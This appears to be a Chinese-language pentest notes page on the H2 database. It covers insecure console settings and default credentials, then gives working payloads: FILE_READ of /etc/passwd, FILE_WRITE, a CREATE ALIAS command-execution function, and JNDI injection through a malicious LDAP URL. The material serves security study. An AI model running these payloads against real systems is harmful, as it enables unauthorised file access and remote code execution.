 ```yaml
---
title: "H2 database"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:38:14+08:00
draft: false
---
```


H2 是用 java 开发的嵌入式数据库，其本身只是一个类库(jar 文件)，可以直接嵌入到应
用项目中。

主要用途：

1.  和应用一起打包发布，方便存储少量的结构化数据。
2.  用于单元测试，启动速度快，关闭持久化功能后每次测试完都会还原数据。
3.  作为缓存(内存数据库)使用，缓存一些不经常变化但需要频繁访问的数据，比如字典表、
    权限表。

示例配置文件：

```nil
spring.datasource.url = jdbc:h2:mem:dbtest
#配置h2数据库的连接地址
spring.datasource.username = sa
#配置数据库用户名
spring.datasource.password = sa
#配置数据库密码
spring.datasource.driverClassName =org.h2.Driver
#配置JDBC Driver
##数据初始化设置
spring.datasource.schema=classpath:db/schema.sql
#进行该配置后，每次启动程序，程序都会运行resources/db/schema.sql文件，对数据库的结构进行操作。
spring.datasource.data=classpath:db/data.sql
#进行该配置后，每次启动程序，程序都会运行resources/db/data.sql文件，对数据库的数据操作。
##h2 web console设置
spring.datasource.platform=h2
#表明使用的数据库平台是h2
spring.h2.console.settings.web-allow-others=true
# 进行该配置后，h2 web consloe就可以在远程访问了。否则只能在本机访问。
spring.h2.console.path=/h2
#进行该配置，你就可以通过YOUR_URL/h2访问h2 web consloe。YOUR_URL是你程序的访问URl。
spring.h2.console.enabled=true
#进行该配置，程序开启时就会启动h2 web consloe。当然这是默认的，如果你不想在启动程序时启动h2 web consloe，那么就设置为false。
```

`spring.h2.console.settings.web-allow-others` 设置为 true，则允许任意用户访问
console，同时默认的数据库 test 登陆用户名是 sa，密码为 null，存在信息泄漏风险。

console 默认端口：8082
数据库默认端口：9092


## 利用方式 {#利用方式}

1.  文件读取
    使用 `FILE_READ` 函数进行敏感文件的读取(需要管理员权限)，支持文件名和 URL 方式进
    行读取。

    ```text
    SELECT FILE_READ('/etc/passwd', NULL) CSS;
    ```

    第二个参数为字符集，NULL 表示使用系统默认。

2.  文件写入
    使用 `FILE_WRITE` 函数进行文件写入(需要管理员权限和文件的写权限)。

    ```text
    SELECT FILE_WRITE('00000074000000650000007300000074', '/tmp/hello.txt');
    ```

3.  执行 java 代码
    通过 `CREATE ALIAS` 定义一个函数，并使用 `CALL` 调用。
    ```nil
       CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
       CALL SHELLEXEC('id')
    ```

4.  JNDI 注入
    通过配置 H2 Console 的 Driver CLASS 和 JDBC URL，即可触发一个 JNDI 注入。

    | Setting Name             | Generic JNDI Data Source （名称随意）          |
    |--------------------------|------------------------------------------|
    | Driver Class             | javax.naming.InitialContext （JDK 自带也不用考虑额外的驱动） |
    | JDBC URL                 | ldap://ip:port/jndi （恶意 LDAP Server）       |
    | User Name &amp; Password | 设置为空                                       |

5.  SQL 注入
